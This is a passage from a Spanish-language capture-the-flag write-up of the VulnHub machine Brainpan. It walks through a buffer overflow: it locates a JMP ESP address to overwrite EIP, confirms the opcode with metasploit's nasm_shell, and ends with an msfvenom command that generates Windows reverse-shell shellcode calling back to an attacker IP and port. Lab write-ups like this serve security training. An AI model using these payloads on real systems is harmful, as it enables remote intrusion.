 ![Brainpan](/assets/img/vulnhub/brainpan/brainpan-31.png)
_JMP ESP_

La dirección de memoria que corresponde con la instrucción `JMP ESP` es `0x311712F3`, es ahí donde tiene que apuntar el registro `EIP`. 

> En hexadecimal, la instrucción `JMP ESP` se representa como `FFE4`, podemos comprobar esto haciendo uso del módulo `nasm_shell` de metasploit:
{: .prompt-info }

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-32.png)
_nasm_shell.rb_

### ShellCode

Como ultimo punto, solo resta generar nuestro shellcode. Para ello utilizaremos `msfvenom` indicando como payload `windows/shell_reverse_tcp` de la siguiente forma:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.14 LPORT=4444 EXITFUNC=thread -f python -v shellcode -b '\x00'
```
